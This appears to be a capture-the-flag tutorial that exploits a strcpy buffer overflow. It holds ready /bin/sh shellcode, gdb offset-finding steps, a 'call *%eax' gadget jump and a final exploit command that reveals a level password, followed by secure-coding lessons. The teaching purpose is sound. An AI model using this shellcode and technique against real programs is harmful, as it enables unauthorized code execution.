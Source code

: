 ## Level 4: avoid unsafe library functions

The source code on this level is surprisingly simple:
```
void fun(char *str) {
  char buf[1024];
  strcpy(buf, str);
}

int main(int argc, char **argv) {
  // ... 
  fun(argv[1]);
  // ... 
}
```

The problem is obvious:
`strcpy` is well-known to be unsafe,
it doesn't check if the destination array has enough space to store the source array.
We can overwrite the memory area beyond `buf` using a long command line argument.

If you recall from the previous challenge,
the return address is stored on the stack after local variables.
By writing past the end of `buf`,
we can overwrite the return address,
so that when the function exits,
the execution will jump to where we want,
instead of the real next instruction.

In the previous challenge we could jump to the insecure function `run`.
In this program however,
we don't have such easy target.
On the other hand,
we can bring insecure code inside through the input string.

We could inject what is commonly called a *shellcode*:
a small piece of binary code that executes `/bin/sh`.

Implementing such shellcode is beyond the scope of this article.
If you are interested,
it is thoroughly explained in the Smash The Stack article[5],
see the resources.
Essentially it is a modified version of a simple C program like this:
```
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
```
Writing shellcode is not easy.
After compiling such program,
there is more work to do,
for example you may have to rewrite some of the assembly instructions to eliminate any NULL bytes,
as `strcpy` won't copy anything beyond the first `NULL`.

For our purposes,
we can take the finished shellcode from the Smash The Stack article[5],
and for convenience, let's save it in a shell variable:
```
EGG=$(printf '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')
```
Next,
we need to find the exact location of the return address.
The content of the stack will look something like this when we are inside `fun`:
```
0x0000      content of the local variable buf (1024 bytes)
0x0400+?    the return address
```
That is, the return address is somewhere soon after the end of `buf`.
We can find the right position using `gdb`.
When we overwrite the return address with something invalid,
`gdb` will print the address it could not jump to.
We can use this to guess the right location.

We know that the size of `buf` is 1024,
so let's run the program with a longer string:
```
level03@box:/levels/level04$ gdb ./level04
(gdb) run $(python -c 'print "A" * 1100')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1100')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
We have successfully overwritten the return address with "A"s.
Let's try another string,
something that will help us pinpoint the correct position:
```
(gdb) run $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')

Program received signal SIGSEGV, Segmentation fault.
0x706f6e6d in ?? ()
```
That looks within our `abc...` sequence.
Let's check the ASCII codes to find the exact position:
```
level03@box:/levels/level04$ echo abcdefghijklmnopqrstuvwxyz | hexdump -C
00000000  61 62 63 64 65 66 67 68  69 6a 6b 6c 6d 6e 6f 70  |abcdefghijklmnop|
00000010  71 72 73 74 75 76 77 78  79 7a 0a                 |qrstuvwxyz.|
0000001b
```
Since `m=6d n=6e o=6f p=70`,
the return address is in the place of the letters `mnop`.
As there are 12 letters before "m",
we can calculate the target length until the return address is 1024 + 12 = 1036.
Let's verify this final number with one last test in `gdb`:
```
(gdb) run $(python -c 'print "A" * 1036 + "BBBB"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1036 + "BBBB"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
Perfect.
If we put the shellcode at the beginning of the buffer,
then our input string will be in this form:
```
SSSSSSSS PPPPPPPPPPPPPPPPPPPPPP AAAA
```
Where `S`s indicate the shellcode,
`P`s the padding, and `A`s the jump address.
We calculated the length of `S + P` is 1036,
to know the length of `P` alone we must find the length of `S`:
```
level03@box:/levels/level04$ printf $EGG | wc -c
45
```
Thus, the length of the padding should be 1036 - 45 = 991 characters.

The only thing missing is the jump address.
We want to jump to the address of `buf`,
but how can we cannot know that.
In the past,
the stack used to be at the same address in all programs,
which was easy to exploit.
As of today,
thanks to address space layout randomization (ASLR) used in modern operating systems,
the start address of the stack is randomized,
making it extremely difficult to guess the right location.

Luckily for us,
some interesting details work in our favor:

- On 32-bit x86 processors,
  a function that returns a pointer value places its result in register `%eax`.

- `strcpy` is the last call in the function `fun`,
  so its returned value remains in `%eax` when the function returns.

- There are `call *%eax` instructions inside the program,
  which are suitable jump targets,
  as they execute the code at the address stored in register `%eax`.

That is,
we can put our shellcode at the start of `buf`,
then when `strcpy` returns,
the address of `buf` will be saved in `%eax`,
and so if we overwrite the return address with any of the `call *%eax` instructions,
then our shellcode at the start of `buf` will get executed.

Find the addresses of `call *%eax` instructions using `objdump`:
```
level03@box:/levels/level04$ objdump -d level04 | grep call.*eax
 8048488:   ff 14 85 1c 9f 04 08    call   *0x8049f1c(,%eax,4)
 80484cf:   ff d0                   call   *%eax
 80485fb:   ff d0                   call   *%eax
```
That's it, we can use either `0x080484cf` or `0x080485fb` as the address to jump to:
```
level03@box:/levels/level04$ ./level04 $EGG$(python -c 'print "A" * 991')$(printf '\xcf\x84\x04\x08')
/levels/level04 $ cat /home/level04/.password 
paegeiqu
```

## Lessons to learn

- Don't use unsafe library functions like `strcpy`.

- Always make sure that arrays cannot be written beyond their boundaries.

- Always validate user input, and set reasonable limits to input length.

